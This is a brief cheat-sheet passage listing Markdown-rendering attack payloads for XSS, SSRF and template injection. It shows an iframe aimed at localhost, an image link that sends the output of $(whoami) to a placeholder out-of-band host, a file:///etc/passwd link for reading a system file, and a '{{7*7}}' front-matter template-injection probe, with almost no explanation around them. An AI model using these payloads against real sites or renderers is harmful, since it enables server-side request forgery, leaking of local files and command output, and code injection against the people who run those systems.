 In markdown language you can use `HTML` tags. you can use this for `XSS` or `SSRF` or accessing restricted resourceses

```md
<iframe src="http://localhost:5000"></iframe>
![oob](http://your-oob-host/$(whoami)) # ssrf
![local](file:///etc/passwd) # ssrf
```

Template injection
```md
---
title: "{{7*7}}"
---
# hi
```